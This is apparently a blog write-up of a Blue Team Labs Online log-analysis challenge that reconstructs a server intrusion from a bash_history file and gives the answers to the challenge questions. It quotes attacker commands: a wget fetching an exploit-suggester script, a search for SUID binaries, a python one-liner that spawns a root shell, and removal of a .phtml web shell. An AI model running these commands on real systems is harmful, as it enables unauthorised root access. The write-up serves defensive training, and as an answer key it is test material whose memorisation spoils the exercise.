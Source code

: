 ```yaml
---
title: "Log Analysis - Privilege Escalation"
tags: ['Blue Team Labs Online']
date: 2021-08-09
---
```


[https://blueteamlabs.online/home/challenge/4](https://blueteamlabs.online/home/challenge/4)

## Contents

- [Introduction](#introduction)
- [Questions](#questions)
  - [What user (other than ‘root’) is present on the server?](#what-user-other-than-root-is-present-on-the-server)
  - [What script did the attacker try to download to the server?](#what-script-did-the-attacker-try-to-download-to-the-server)
  - [What packet analyzer tool did the attacker try to use?](#what-packet-analyzer-tool-did-the-attacker-try-to-use)
  - [What file extension did the attacker use to bypass the file upload filter implemented by the developer?](#what-file-extension-did-the-attacker-use-to-bypass-the-file-upload-filter-implemented-by-the-developer)
  - [Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load](#based-on-the-commands-run-by-the-attacker-before-removing-the-php-shell-what-misconfiguration-was-exploited-in-the-python-binary-to-gain-root-level-access-1--reverse-shell--2--file-upload--3--file-write--4--suid--5--library-load)

## Introduction

A server with sensitive data was accessed by an attacker and the files were posted on an underground forum. This data was only available to a privileged user, in this case the ‘root’ account. Responders say ‘www-data’ would be the logged in user if the server was remotely accessed, and this user doesn’t have access to the data. The developer stated that the server is hosting a PHP-based website and that proper filtering is in place to prevent php file uploads to gain malicious code execution. The bash history is provided to you but the recorded commands don’t appear to be related to the attack. Can you find what actually happened?

## Questions

We have a single file, `bash_history`. This is, as the name suggest, the history of commands run in the terminal (bash). This challenge is simply reading through the commands and understanding what they all do.

### What user (other than ‘root’) is present on the server?

In Linux, user directories are located within `/home`. Looking through the logs, on line 21, we see:

```bash
cd /home/daniel/
```

Change directory to daniel's home folder.

> daniel

### What script did the attacker try to download to the server?

We can simply look for scripts, URLs, or methods to download things via bash. Line 32:

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
```

> linux-exploit-suggester.sh

### What packet analyzer tool did the attacker try to use?

What's the most common packet analyser tool for the command line? Line 47:

> tcpdump

### What file extension did the attacker use to bypass the file upload filter implemented by the developer?

Here we can look for uploads for files (with file extensions). Right at the end, line 63, there is a remove command for deleting a file within an uploads folder:

```bash
rm /var/www/html/uploads/x.phtml
```

> .phtml

### Based on the commands run by the attacker before removing the php shell, what misconfiguration was exploited in the ‘python’ binary to gain root-level access? 1- Reverse Shell ; 2- File Upload ; 3- File Write ; 4- SUID ; 5- Library load

Python is mentioned on line 62:

```bash
./usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Immediately before this, line 61, there is a `find` command:

```bash
find / -type f -user root -perm -4000 2>/dev/null
```

This find looks for files (`-type f`) owned by root (`-user root`) with permissions of 4000 (`-perm -4000`) - relates to SUID files.

> 4